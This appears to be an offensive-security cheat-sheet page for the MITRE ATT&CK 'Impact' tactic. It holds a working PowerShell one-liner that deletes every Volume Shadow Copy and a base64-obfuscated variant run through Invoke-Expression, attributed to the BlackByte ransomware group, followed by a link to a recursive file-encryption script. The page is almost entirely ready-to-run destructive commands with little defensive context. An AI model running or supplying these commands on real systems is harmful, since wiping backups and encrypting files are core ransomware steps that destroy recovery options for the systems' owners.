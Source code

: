 ```yaml
---
description: >-
  The adversary is trying to manipulate, interrupt, or destroy your systems and
  data. https://attack.mitre.org/tactics/TA0040/
---
```


# Impact

## Remove Volume Shadow Copies

{% code overflow="wrap" %}
```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```
{% endcode %}

The threat actor TTP is associated with BlackByte and executes the above as base64.

{% code overflow="wrap" %}
```powershell
powershell.exe $x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RwBlA HQALQBXAG0AaQBPAGIAagBlAGMAdAAg'+'AFcAaQBuADMAMgBfAFMAaABhAGQAb wB3AGMAbwBwAHkAIAB8AC'+'AARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUAYwB0A CAAewAkA'+'F8ALgBEAGUAbABlAHQAZQAoACkAOwB9AA=='));Invoke-Expression $x
```
{% endcode %}

## PowerShell Encryption Routine

A trivial example of encrypting files recursively with a random interger as the key

[https://github.com/burmat/burmatscripts/blob/master/powershell/AES-Locker.ps1](https://github.com/burmat/burmatscripts/blob/master/powershell/AES-Locker.ps1)

